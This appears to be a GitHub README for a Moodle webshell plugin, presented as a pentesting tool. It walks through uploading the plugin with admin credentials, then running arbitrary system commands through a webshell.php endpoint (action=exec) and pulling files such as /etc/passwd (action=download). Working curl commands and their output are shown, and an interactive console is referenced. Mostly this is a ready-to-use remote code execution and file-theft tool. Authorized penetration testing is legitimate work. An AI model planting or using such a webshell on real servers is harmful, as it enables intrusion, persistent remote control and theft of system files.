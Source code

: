 # Moodle webshell plugin for RCE

<p align="center">
    A webshell plugin and interactive shell for pentesting a Moodle instance.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/Moodle-webshell-plugin">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>

## Features

 - [x] Webshell plugin for Moodle.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine with `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the Moodle instance.

### Step 1.1: Upload the webshell plugin

Go to "Site administration --> Install plugins" page, at http://127.0.0.1:10080/admin/tool/installaddon/index.php, and click on "_Choose a file_":

![](./.github/upload_and_install.png)

### Step 1.2: Plugin successfully uploaded

Press the buttons on the various pages until you get a message stating that your plugin is successfully uploaded:

![](./.github/plugin_successfully_uploaded.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/local/moodle_webshell/webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/local/moodle_webshell/webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/local/moodle_webshell/webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/local/moodle_webshell/webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :

![](./.github/download_file_web.png)

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/169657310-dee340d6-19c0-4192-bcd1-ac8b9b29b731.mp4

## References
 - https://docs.moodle.org/en/Developer_documentation
 - https://docs.moodle.org/400/en/Development:Developer_documentation#Make_a_new_plugin
 - https://docs.moodle.org/dev/Moodle_App_Plugins_Development_Guide
 - https://docs.moodle.org/dev/Plugin_files
